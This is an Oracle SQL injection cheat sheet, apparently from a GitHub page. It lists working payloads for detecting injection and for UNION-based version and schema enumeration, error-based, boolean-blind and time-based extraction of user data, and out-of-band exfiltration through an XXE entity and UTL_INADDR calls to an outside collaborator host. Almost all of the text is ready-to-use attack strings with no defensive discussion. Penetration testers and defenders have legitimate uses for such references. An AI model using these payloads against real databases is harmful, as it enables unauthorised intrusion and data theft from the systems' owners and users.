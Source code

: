 ## Oracle

Discovery
- Comments: `-- `, `/* ... */`
- Concatenation: `'a'||'b'`
- Time primitive: `dbms_pipe.receive_message(('a'),5)` (permissions vary)
- Version sources: `v$version`, `v$instance`

Initial detection
- Boolean:
  - `AND 1=1-- ` vs `AND 1=2-- ` (Oracle often requires valid `FROM`; sometimes `FROM dual`)
- Time-based:
  - `AND CASE WHEN (1=1) THEN dbms_pipe.receive_message(('a'),5) ELSE NULL END FROM dual`

Version / DB / User / Schema
```sql
UNION SELECT banner FROM v$version-- 
UNION SELECT version FROM v$instance-- 
UNION SELECT SYS_CONTEXT('USERENV','CURRENT_SCHEMA') FROM dual-- 
UNION SELECT USER FROM dual-- 
```

UNION setup
- Column count via `ORDER BY n` or successive `NULL`s from `dual`. Many apps use fixed-selects; prefer error/boolean/time if no reflection.

Schema enumeration
```sql
UNION SELECT table_name FROM all_tables-- 
UNION SELECT column_name FROM all_tab_columns WHERE table_name='USERS'-- 
```

Error-based extraction
- Force conversion exceptions:
```sql
AND 1=(SELECT TO_NUMBER((SELECT username FROM users WHERE ROWNUM=1)) FROM dual)-- 
```
- Or XML-based expansion for OOB/error (version/patch dependent):
```sql
AND EXTRACTVALUE(xmltype('<x/>'),CONCAT('\\',(SELECT USER))) IS NOT NULL
```

Boolean blind
```sql
AND (SELECT CASE WHEN (ASCII(SUBSTR((SELECT USER FROM dual),1,1))>77) THEN 1 ELSE 0 END FROM dual)=1-- 
```

Time-based blind
```sql
AND CASE WHEN (ASCII(SUBSTR((SELECT USER FROM dual),1,1))>77) THEN dbms_pipe.receive_message(('a'),5) ELSE NULL END FROM dual
```

Out-of-band (DNS/HTTP)
- Depending on privileges and patch level:
```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"?><!DOCTYPE r [<!ENTITY % p SYSTEM "http://id.oastify.com/">%p;]>'),'/l') FROM dual;
-- Or network UTLs (if enabled):
SELECT UTL_INADDR.get_host_address('id.oastify.com') FROM dual;
```

---